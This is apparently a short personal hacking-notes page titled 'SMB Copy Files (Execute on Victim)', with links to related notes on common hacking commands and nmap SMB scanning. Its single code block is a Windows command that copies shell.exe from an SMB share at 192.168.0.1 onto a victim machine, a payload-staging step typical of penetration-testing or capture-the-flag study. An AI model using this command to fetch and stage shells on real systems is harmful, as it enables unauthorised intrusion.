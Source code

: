 # SMB Copy Files (Execute on Victim)
```
copy \\192.168.0.1\server_name\shell.exe shell.exe
```

` zet/20221003150567/README.md `

# Related

- [20221014190001](/zet/20221014190001/README.md) kb file named kb/hacking/common-commands.md
- [20221003150838](/zet/20221003150838/README.md) scan SMB for vulnerabilities with nmap
- [20221005200242](/zet/20221005200242/README.md) empty zettels to fix

Tags:

    
